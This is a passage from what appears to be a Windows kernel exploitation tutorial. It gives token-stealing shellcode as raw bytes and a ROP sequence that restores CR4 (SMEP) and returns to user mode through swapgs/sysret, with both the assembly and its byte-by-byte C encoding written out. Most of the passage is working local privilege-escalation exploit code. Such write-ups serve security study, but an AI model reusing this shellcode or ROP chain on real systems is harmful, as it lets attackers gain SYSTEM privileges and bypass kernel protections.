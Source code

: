```c
// Steal SYSTEM token shellcode
memcpy((unsigned char*)(shellcode + 17), "\x65\x48\x8B\x04\x25\x88\x01\x00\x00\x48\x8B\x80\xB8\x00\x00\x00\x49\x89\xC0\x4D\x8B\x80\x48\x04\x00\x00\x49\x81\xE8\x48\x04\x00\x00\x4D\x8B\x88\x40\x04\x00\x00\x49\x83\xF9\x04\x75\xE5\x49\x8B\x88\xB8\x04\x00\x00\x80\xE1\xF0\x48\x89\x88\xB8\x04\x00\x00"
, 63);
```

Finally, the shellcode has to restore original value of CR4 (enable back SMEP) while still in kernel-mode and then return to user-mode safely.  
The moment CR4 gets restored, SMEP will be in effect. Therefore, to return to user-mode ROP chain has to be used again.  
Restoring CR4 is easy, the same CR4 gadget can be reused to overwrite CR4 with its original value.  

The tricky part is to return to user-mode. The code has to mimic the steps the original systemcall handler returns to user-mode, which means it needs a ROP gadget of "*swapgs; sysret*{: style="color: LightGreen"}". swapgs restores the user-mode GS register and sysret returns the CPU to Ring 3. The [sysret instruction](https://www.felixcloutier.com/x86/sysret) loads RIP from RCX,  loads RFLAGS from R11 and does not modify the stack pointer (RSP). This means that prior to calling it, the return address to the calling function (in my case - main) should be popped into RCX, the original value of RFLAGS should be moved in R12 and the stack should be restored in the state prior to calling the *__rop*{: style="color: LightGreen"} function.  

```asm
add rsp,0x18                         ; Restore stack; Return address of main is on top
pop rcx                              ; RCX = return address to main()
movabs rdx, gadget_swapgs_sysret_ret ; 
push rdx                             ; push address of sysret gadget

mov rax, 0x370678                    ; original CR4 value, to be used in cr4 gadget to restore it
sub rsp, 0x28                        ; setup stack for cr4 gadget
movabs rdx, gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret
push rdx                             ; push address of CR4 gadget

mov    r11, r12                      ; restore RFLAGS; Last thing to do, to make sure it's not modified by any other instruction
ret                                  ; jump to CR4 gadget
```

And the C code for it:  

```c
// Cleanup
memcpy((unsigned char*)(shellcode + 80), "\x48\x83\xc4\x18", 4);               // add    rsp,0x18 ; Restore stack
memcpy((unsigned char*)(shellcode + 84), "\x59", 1);                           // pop rcx ; return address to main()
memcpy((unsigned char*)(shellcode + 85), "\x48\xc7\xc0\x78\x06\x37\x00", 7);   // mov    rax, 0x370678 ; to restore cr4
memcpy((unsigned char*)(shellcode + 92), "\x48\xba", 2);                       // movabs rdx, gadget_swapgs_sysret_ret
memcpy((unsigned char*)(shellcode + 94), &kernelAddress.gadget_swapgs_sysret_ret, 8);
memcpy((unsigned char*)(shellcode + 102), "\x52", 1);                          // push rdx
memcpy((unsigned char*)(shellcode + 103), "\x48\x83\xec\x28", 4);              // sub rsp, 0x28
memcpy((unsigned char*)(shellcode + 107), "\x48\xba", 2);                      // movabs rdx, gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret
memcpy((unsigned char*)(shellcode + 109), &kernelAddress.gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret, 8);
memcpy((unsigned char*)(shellcode + 117), "\x52", 1);                          // push rdx
memcpy((unsigned char*)(shellcode + 118), "\x4d\x89\xe3", 3);                  // mov    r11, r12  ; restore RFLAGS
memcpy((unsigned char*)(shellcode + 121), "\xc3", 1);                          // ret
```
